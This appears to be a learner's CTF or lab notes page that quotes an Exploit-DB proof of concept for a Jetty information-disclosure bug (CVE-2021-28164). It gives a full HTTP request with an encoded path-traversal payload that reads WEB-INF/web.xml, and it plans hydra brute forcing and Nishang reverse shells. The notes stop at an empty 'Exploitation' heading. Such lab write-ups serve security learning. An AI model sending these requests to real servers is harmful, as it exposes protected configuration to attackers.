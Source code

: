      Exploit Title: Jetty 9.4.37.v20210219 - Information Disclosure
    
     Date: 2021-10-21
    
     Exploit Author: Mayank Deshmukh
    
     Vendor Homepage: https://www.eclipse.org/jetty/
    
     Software Link: https://repo1.maven.org/maven2/org/eclipse/jetty/jetty-distribution/9.4.37.v20210219/
    
     Version: 9.4.37.v20210219 and 9.4.38.v20210224
    
     Tested on: Kali Linux
    
     CVE : CVE-2021-28164
    
    POC #1 - web.xml
    
    GET /%2e/WEB-INF/web.xml HTTP/1.1
    
    Host: localhost:8080
    
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    
    Accept-Language: en-US,en;q=0.5
    
    Accept-Encoding: gzip, deflate
    
    Connection: close
    
    Upgrade-Insecure-Requests: 1
    
    Cache-Control: max-age=0
    
    Nothing from Exploit DB seems too promising. At least at my current level of ability. Tried Nikto and ffuf on this as well with zero results. I may be an idiot doing it wrong but idk. Nishang doesnt offer much either but post exploitation scripts.
    
    ## 3389 TCP tcpwrapped (RDP port)
    
    I think this could be useful in using one of the scripts from Nishang. we shall see. Also, ran a few nmap scripts to gather more details of the port but really nothing of note. I've looked through the Nishang repository but most of those scripts are for post exploitation.
    
    ### To Try:
    
    brute force attempts with hydra with username Alfred or Bruce or Wayne, or Admin?
    
    use Nishang repository to find reverse shell scripts, or brute force scripts? idk theres a ton of stuff on there.
    
    Attempt to use the exploits found on exploit db for both IIS 7.5 on port 80 and Jetty 9.4 on 8080.
    
    Also gonna pop open Metasploit to see whatsup, maybe it has some modules ready to go for me to attempt.
    
- # Exploitation
    